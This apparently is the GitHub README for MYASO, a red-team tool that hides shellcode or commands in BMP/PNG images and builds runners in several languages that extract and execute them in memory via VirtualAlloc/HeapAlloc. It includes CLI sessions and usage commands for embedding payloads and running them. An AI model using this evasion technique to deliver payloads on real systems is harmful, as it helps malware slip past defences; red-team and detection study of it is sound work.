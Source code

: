 # MYASO

```
$ myaso embed -a LSB -i .\cat.bmp -o .\samples\shellcode\sc64.bmp -s .\sc_x64.bin --def .\go.yaml
88888b.d88b.  888  888  8888b.  .d8888b   .d88b.           
888 "888 "88b 888  888     "88b 88K      d88""88b          
888  888  888 888  888 .d888888 "Y8888b. 888  888          
888  888  888 Y88b 888 888  888      X88 Y88..88P          
888  888  888  "Y88888 "Y888888  88888P'  "Y88P"           
                   888                                     
by @adeadfed  Y8b d88P 
   @harpsiford "Y88P"       

[*] Payload size: 2208 bits (save this number!)
🥩 Saved the stego to .\samples\shellcode\sc64.bmp
[+] Builder configured
[*] Configuration: gorunner64_no_symbols (windows/x64/go/shellcode, algorithm=LSB, params={'MAX_BITS': 2208})
[*] Starting the build...
[+] Build was successful!
🥩 Runner is at readers\go\gorunner64_no_symbols.exe
[*] Usage: gorunner64_no_symbols.exe 2208 sc64.bmp

❯ py main.py embed -a LSB-X,G -i .\samples\cat.bmp -o .\samples\shellcode\sc_lsbx_green.bmp -s .\samples\shellcode\test_lsbx.txt --verbose --no-banner
[*] Reading shellcode from file...
[*] Shellcode: b'123456\r\n'
[*] Payload size: 64 bits (save this number!)
[*] Algorithm: LSB-X
[*] Source image: .\samples\cat.bmp
[*] LSB-X args: ('G',) 1
� Saved the stego to .\samples\shellcode\sc_lsbx_green.bmp

❯ py main.py read -a LSB-X,G -i .\samples\shellcode\sc_lsbx_green.bmp --verbose --max-bits 64 --no-banner
[*] Source image: .\samples\shellcode\sc_lsbx_green.bmp
[*] Algorithm: LSB-X
[*] Algorithm: LSB-X,G, extracting up to 64 bits
[*] LSB-X args: ('G',) 1
[+] Message: b'123456\r\n'

❯ py main.py read  -a LSB-X,G,64               -i samples/shellcode/sc_lsbx_green.bmp   --verbose --no-banner
❯ py main.py embed -a LSB-X,samples/cat.bmp,G  -o /samples/shellcode/sc_lsbx_green.bmp  --verbose --no-banner

```

A steganographic shellcode obfuscator. The executor reads data from a BMP image and executes it using VirtualAlloc/HeapAlloc. 

Has modules in the following languages:
- [x] C/C++
- [x] C#
- [x] Powershell
- [x] Go
- [x] Microsoft VBA (beta)

Available algorithms:
- [x] LSB (generic)
- [x] LSB-X (channel X only)
- [x] LSBM
- [x] ColorCode

Supported image formats:
- [x] BMP
- [x] PNG
- [ ] JPEG (TBD)

Supported payload types:
- [x] CMD commands
- [x] Shellcode 
- [ ] In-memory PE

Supported payload mutations:
- [ ] Obfuscate PS runner

## Usage

### Generate image
```sh
myaso embed -f sc.bin -i image.bmp -o evil_image.bmp [-a <algorithm>]
```

### Execute shellcode
```cmd
c:\> reader.exe SC_BITS happy_cat.bmp
```

## Is it any good?
[yes.](https://news.ycombinator.com/item?id=3067434)

## Known issues
- [ ] python script takes ages to process large payloads (>1 MB)
- [x] PS builder templates wrong byte_length e.g. (should be 276 -> templates 2208 (276 * 8, length in bits))
- [x] PS builder does not use minifier (/src/ps_minifier.py)
- [x] C++ runners are not working and crash
- [x] C# builder searches for csharp_runner.cs, not runner.cs
- [x] Go builder not working (no template braces in the .mst file, searching for file with wrong name)

## Definition of Ready
- [x] parsing/embedding is abstract enough
- [x] console args
- [x] colored output
- [ ] write tests (at least for the Python part)
- [ ] proper error handling (in progress)
- [x] steak ascii art
- [x] algorithm args (`myaso -a ALGO,arg1,arg2`)
- [x] minify PS output after build
- [x] templating (all langs)
- [ ] test all build variants manually (oh god)
- [ ] docker image

## Roadmap
- [ ] JPEG support 
- [ ] interactive mode for embedding / generating
- [ ] add in-memory PE runners
- [ ] speed-up payload embedding in python
- [ ] payload mutations
